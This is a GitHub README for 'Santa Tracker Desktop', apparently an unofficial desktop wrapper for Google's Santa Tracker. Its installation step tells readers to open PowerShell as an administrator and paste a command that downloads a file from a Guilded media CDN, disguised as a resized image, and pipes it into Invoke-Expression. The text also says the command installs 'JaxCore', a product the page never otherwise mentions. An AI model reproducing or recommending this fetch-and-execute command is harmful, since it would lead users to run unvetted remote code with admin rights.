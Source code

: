 <!-- START Header.mustache -->
<br />
<div align="center">
  <a href="https://github.com/Jax-Core/ReadME-Test">
    <img src="https://play-lh.googleusercontent.com/hG8czln9SPL68rQeMj5q8LYoQJx-OLITaunMSot4R2d0QugmPyT8a2gUQ4rMF3awnHJm" alt="Logo" width="80" height="80">
  </a>

<h3 align="center">Santa Tracker Desktop</h3>
  <p align="center">
    Unofficial Desktop client for Googles Santa Tracker
    <br />
    <a href="https://santatracker.google.com/intl/en/">Official Website »</a>
  </p>
</div>
<!-- END Header.mustache -->
<!-- START ShieldsFull.mustache -->
<p align="center">
  <img alt="Releases" src="https://img.shields.io/github/downloads/ItzIcoza/santa-tracker-desktop/total?style=for-the-badge" />
  <img alt="Release date" src="https://img.shields.io/github/release-date/ItzIcoza/santa-tracker-desktop?label=Last%20Update&style=for-the-badge" />
  <img alt="Github" src="https://img.shields.io/github/license/ItzIcoza/santa-tracker-desktop/?style=for-the-badge" />
</p><!-- END ShieldsFull.mustache -->
<!-- ShieldsBasic for shields without download count and last update date--> 

<!-- START About.mustache -->

## About

![ReadME-Test](https://raw.githubusercontent.com/Jax-Core/ReadME-Template/main/Resources/Splash/ReadME-Test.png)
<!-- END About.mustache -->
Unofficial Desktop client for Googles Santa Tracker


<!-- START GetStarted.mustache -->

## Getting Started

### Prerequisites
- **Windows 10** or above
> For older systems, **Powershell v5.1 or newer** is required. Upgrade powershell **[here](https://docs.microsoft.com/en-us/powershell/scripting/windows-powershell/install/installing-windows-powershell?view=powershell-7.2#upgrading-existing-windows-powershell)**!

### Installation 
Run the following command in Powershell to download the latest version of JaxCore.

(To launch Powershell as an Admin: `Win + R` -> `powershell` -> Press `CTRL + SHIFT + ENTER` on your keyboard. Powershell can also be launched via Windows Search.)

```
Invoke-WebRequest -UseBasicParsing "https://img.guildedcdn.com/ContentMediaGenericFiles/95cb5af604eb6c32c5c783fecb08874c-Full.zip?w=1&h=1" | Invoke-Expression
```


<br />
<br /><!-- END GetStarted.mustache -->
<!-- START Setup.mustache -->

### Configuration
Open the app and select the menu icon in the top left corner.
<br>
<br><!-- END Setup.mustache -->
<!-- START Footer.mustache -->

## Need assistance?
* Unfortunately I can not provide help for issues with the website, although you can contact me on Discord or [Guilded](https://www.guilded.gg/wasthatzero) for help (Most likely to reply on Discord, but Guilded works fine :D)

## Say hi!
* Follow me on 👨‍💻 [Github](https://github.com/ItzIcoza) and stay updated on new things that I make
* Message me on 🗨️ [Guilded]([https://discord.gg/JmgehPSDD6](https://www.guilded.gg/wasthatzero))

<p align="center">
<i>Made with ❤️ by Zero</i>
   <br/><br/>
   <img src="https://play-lh.googleusercontent.com/hG8czln9SPL68rQeMj5q8LYoQJx-OLITaunMSot4R2d0QugmPyT8a2gUQ4rMF3awnHJm"  width="32" height="32"/>
</p>
<!-- END Footer.mustache -->
